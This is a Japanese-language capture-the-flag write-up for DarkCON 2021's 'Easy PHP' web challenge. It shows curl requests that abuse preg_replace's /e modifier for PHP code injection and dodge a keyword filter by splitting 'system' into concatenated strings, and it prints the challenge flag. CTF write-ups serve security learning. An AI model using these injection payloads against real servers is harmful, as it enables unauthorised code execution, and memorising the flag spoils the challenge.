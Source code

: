 # Easy PHP:Web:384pts
```
Please note....
Note: This chall does not require any brute forcing
```
[Link](http://easy-php.darkarmy.xyz/)  

# Solution
アクセスしても文字が表示されるだけのようだ。  
```bash
$ curl http://easy-php.darkarmy.xyz/
Welcome DarkCON CTF !!
```
robots.txtをみる。  
```bash
$ curl http://easy-php.darkarmy.xyz/robots.txt
?lmao
```
謎のクエリパラメータが出てくるので、指定しアクセスすると以下のようなソースが見られた。  
?lmao  
[site.png](site/site.png)  
`preg_replace`が用いられているが、e修飾子によって第二引数がphpコードとして評価されることが知られている。  
`is_payload_danger`によってある程度はじかれるようだが、`eval`は通るようだ。  
```bash
$ curl "http://easy-php.darkarmy.xyz/?bruh=system('')&nic3=/a/e"
Amazing Goob JOb You :) 
$ curl "http://easy-php.darkarmy.xyz/?bruh=eval('')&nic3=/a/e"
Welcome DrkCON CTF !!Welcome DarkCON CTF !!
$ curl "http://easy-php.darkarmy.xyz/?bruh=eval('echo(123456789);')&nic3=/a/e"
123456789Welcome DrkCON CTF !!Welcome DarkCON CTF !!
```
systemを文字列として分割してやればよい。  
```bash
$ curl "http://easy-php.darkarmy.xyz/?bruh=eval('syste'.'m(ls);')&nic3=/a/e"
config.php
flag210d9f88fd1db71b947fbdce22871b57.php
index.php
robots.txt
Welcome DrkCON CTF !!Welcome DarkCON CTF !!
$ curl "http://easy-php.darkarmy.xyz/flag210d9f88fd1db71b947fbdce22871b57.php"
darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!}
```
隠しphpにflagが書かれていた。  

## darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!}